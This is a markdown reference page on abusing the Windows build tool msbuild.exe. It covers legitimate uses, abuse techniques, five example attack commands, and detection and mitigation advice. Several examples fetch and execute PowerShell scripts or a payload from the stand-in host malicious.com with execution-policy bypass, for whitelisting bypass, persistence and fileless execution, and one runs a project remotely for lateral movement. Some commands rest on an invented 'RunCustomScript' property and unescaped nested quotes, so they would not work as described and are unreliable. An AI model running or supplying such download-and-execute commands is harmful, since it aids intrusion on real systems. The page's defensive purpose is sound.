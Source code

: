 # msbuild.exe
## What is it?
*```msbuild.exe``` is a legitimate Microsoft tool used for building applications and managing projects. It is part of the .NET Framework and is responsible for compiling code, packaging applications, and managing project files.*

## Legitimate Usage
- **Building Applications** → ```msbuild.exe``` compiles source code and generates executable files or libraries from project files.
- **Managing Project Files** → It allows developers to manage and automate the build process using MSBuild project files (e.g., .csproj or .vbproj).
- **Automated Builds** → Used in continuous integration (CI) pipelines to automate the process of building, testing, and deploying applications.

## How to abuse it
- **Executing Malicious Code** → Attackers can use ```msbuild.exe``` to run arbitrary code embedded in project files, enabling them to execute payloads without triggering security alerts.
- **Persistence via Custom Projects** → Malicious actors can create custom project files that execute malicious code every time ```msbuild.exe``` is invoked.
- **Bypassing Security Controls** → Since ```msbuild.exe``` is a trusted utility, security tools may overlook its misuse, enabling attackers to bypass defenses like application whitelisting.
- **Fileless Malware** → Attackers can execute payloads directly in memory using ```msbuild.exe```, avoiding the creation of files on disk and evading traditional detection methods.

## Example attacks
### 1. Malicious Code Execution via Project Files
*Attackers can embed malicious PowerShell commands or other executable code into a project file and execute them using ```msbuild.exe```.*

**Execute Malicious Code Embedded in a Project File**

```
msbuild.exe C:\path\to\malicious_project.proj
```

**Effect:**
- The ```malicious_project.proj``` file contains embedded code that gets executed, which could include PowerShell scripts, reverse shells, or other malicious payloads.

### 2. Bypassing Application Whitelisting
*Since ```msbuild.exe``` is a trusted tool, it can be used to bypass application whitelisting policies and execute malicious code within a trusted process.*

**Execute Malicious PowerShell Script via MSBuild**

```
msbuild.exe /target:build /p:RunCustomScript="powershell -nop -exec bypass -command "Invoke-WebRequest -Uri http://malicious.com/malware.ps1 -OutFile C:\Windows\Temp\malware.ps1; . C:\Windows\Temp\malware.ps1""
```

**Effect:**
- This command uses ```msbuild.exe``` to run a malicious PowerShell script, bypassing application control measures like AppLocker.

### 3. Persistence via Custom MSBuild Projects
*Attackers can create malicious MSBuild project files that maintain persistence, ensuring the execution of payloads each time ```msbuild.exe``` is run.*

**Create Persistent Payload with MSBuild**

```
msbuild.exe /t:Build /p:PreBuildEvent="powershell -nop -exec bypass -command "Invoke-WebRequest -Uri http://malicious.com/payload.exe -OutFile C:\Windows\Temp\payload.exe; Start-Process C:\Windows\Temp\payload.exe""
```

**Effect:**
- The malicious payload will be executed each time the build process is triggered, ensuring persistence on the system.

### 4. Fileless Malware Execution
*```msbuild.exe``` can be used to execute fileless malware, which runs directly from memory and never writes to disk, reducing the chances of detection by traditional security tools.*

**Run Fileless Malware with MSBuild**

```
msbuild.exe /p:RunCustomScript="powershell -nop -exec bypass -command "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://malicious.com/payload.ps1')\""
```

**Effect:**
- The PowerShell script is downloaded and executed directly from memory, avoiding file creation on disk and evading file-based security tools.

### 5. Lateral Movement via MSBuild
*Attackers can use ```msbuild.exe``` to remotely execute malicious code on other machines in the network, propagating malware or stealing data.*

**Run Malicious MSBuild Project Remotely**

```
Invoke-Command -ComputerName TargetMachine -ScriptBlock { msbuild.exe C:\path\to\malicious_project.proj }
```

**Effect:**
- This command remotely executes ```msbuild.exe``` on the target machine, executing the embedded malicious code within the project file.

# Detection & Mitigation
## Detection Methods
**Monitor for Unusual MSBuild Execution**
- **Event ID 4688 (Process Creation)** → Detect the execution of ```msbuild.exe``` with unusual arguments or from unexpected locations.
- **Fileless Malware Detection** → Use endpoint protection tools to detect and flag memory-based execution patterns.

**Monitor Suspicious Project Files**
- **Audit MSBuild Project Files** → Look for project files containing suspicious commands or scripts that invoke external URLs or execute system-level commands.

**Detect PowerShell Execution**
- **Event ID 4104 (PowerShell Script Block Logging)** → Detect PowerShell scripts executed via ```msbuild.exe``` for command-and-control or payload delivery.

## Mitigation Strategies
- **Restrict Use of MSBuild** → Use application whitelisting (e.g., AppLocker) to restrict the execution of ```msbuild.exe``` to authorized users and applications only.
- **Disable Unnecessary MSBuild Functionality** → Prevent MSBuild from running untrusted project files by restricting access to the MSBuild tool or controlling which scripts and commands it can run.
- **Monitor for Fileless Malware** → Implement behavioral-based detection methods to identify and block fileless malware executions.
- **Use Endpoint Protection Tools** → Ensure antivirus and endpoint detection and response (EDR) tools are configured to flag suspicious MSBuild activity and fileless payloads.

